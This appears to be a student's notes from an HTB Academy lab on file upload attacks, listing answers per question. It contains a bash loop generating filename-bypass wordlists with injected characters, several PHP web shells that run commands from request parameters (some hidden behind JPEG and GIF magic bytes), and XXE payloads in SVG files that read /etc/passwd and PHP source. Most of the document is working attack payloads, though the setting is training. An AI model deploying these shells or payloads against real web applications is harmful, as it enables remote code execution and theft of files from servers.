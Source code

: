 # Useful Links
[PHP extension list](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)
# Character Injection
Finally, let's discuss another method of bypassing a whitelist validation test through Character Injection. We can inject several characters before or after the final extension to cause the web application to misinterpret the filename and execute the uploaded file as a PHP script.

## The following are some of the characters we may try injecting:

```%20```

```%0a```

```%00```

```%0d0a```

```/```

```.\```

```.```

```… ```  

```:```
```
Code: bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

# Useful Shells

## Question 1
shell.php
```php
<?php system('hostname'); ?>
```

## Question 2
shell.php
```php
<?php system($_REQUEST['cmd']);?>
```

## Question 3
shell.php
```php
<?php system($_REQUEST['cmd']);?>
```

## Question 4
shell.phar
```php
<?php system($_REQUEST['cmd']);?>
```

## Question 5
shell.phar.jpg
```php
����^@^PJFIF^@^A^A^A^A,^A,^@^@��^@dExif^@^@II*^@^H^@^@^@^B^@^N^A^B^@-^@^@^@&^@^>
<?php system($_REQUEST['cmd']);?>
```

## Question 6
shell.phar.gif
```php
GIF8
<?php system($_REQUEST['cmd']);?>
```
shell.gif.phar
```php
GIF8
<?php system($_REQUEST['cmd']);?>
```

## Question 7
shell.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
shell2.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>
```
shell3.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resourc>
<svg>&xxe;</svg>
```

## Skills Assessment - File Upload Attacks

shell.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```

shell2.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=common-functions.php"> ]>
<svg>&xxe;</svg>
```

shell.phar.jpeg
```php
����^@^PJFIF^@^A^A^A^A,^A,^@^@��^@dExif^@^@II*^@^H^@^@^@^B^@^N^A^B^@-^@^@^@&^@^>
<?php system($_REQUEST['cmd']);?>
```

# Useful Code
[upload.php](https://github.com/r4fik1/HTB_Academy/blob/main/HTB_File_Upload_Attacks/Skill%20Assessment%20-%20File%20Upload%20Attacks/upload.php)

[common-functions.php](https://github.com/r4fik1/HTB_Academy/blob/main/HTB_File_Upload_Attacks/Skill%20Assessment%20-%20File%20Upload%20Attacks/common-functions.php)
